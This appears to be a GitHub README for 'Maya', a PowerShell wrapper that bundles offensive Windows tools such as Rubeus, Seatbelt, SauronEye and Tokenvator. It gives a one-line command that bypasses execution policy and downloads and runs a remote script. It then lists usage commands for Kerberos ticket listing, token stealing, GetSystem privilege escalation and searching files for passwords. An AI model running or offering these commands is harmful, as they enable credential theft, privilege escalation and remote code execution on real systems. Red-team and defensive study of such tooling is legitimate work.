 # Maya
*Non Powershell based tools wrapped in PowerShell!*

Import-Module ./Maya.ps1

Maya

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Maya/main/Maya.ps1'))

###################################

Follow the on screen instructions:
e.g.

Maya -Rubeus -Command "klist"

Maya -Seatbelt -Command "-group=user"

Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"

Maya -SauronEye -Command "--filetypes .xml .txt .doc .docx .xls .ps1 --keywords pass"

Maya -Tokenvator

Maya -Tokenvator -Command "Sample_Processes"

Maya -Tokenvator -Command "Steal_Token 1156 cmd.exe"

Maya -Tokenvator -Command "GetSystem"

Maya -Tokenvator -Command "WhoAmI"

Maya -Tokenvator -Command "info"

Maya -Rubeus -Command "klist"

Get-GPOReport -All -ReportType XML -Path "c:\Temp\gporeport.xml"

Then,
Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"
